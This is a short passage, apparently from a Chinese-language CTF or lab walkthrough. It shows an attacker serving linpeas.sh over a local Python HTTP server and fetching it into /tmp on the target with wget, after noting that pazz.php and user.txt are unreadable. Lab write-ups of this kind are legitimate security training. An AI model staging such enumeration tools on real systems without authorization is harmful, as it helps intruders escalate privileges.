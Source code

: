 

pazz.php和user.txt都是不可读的



### 上传linpeas.sh

### 本地开启http服务

```
python -m http.server 9000
```

![image-20250425142744798](assets/image-20250425142744798.png)



### 下载

```
cd /tmp
wget 192.168.56.1:9000/linpeas.sh
```

![image-20250425142837054](assets/image-20250425142837054.png)

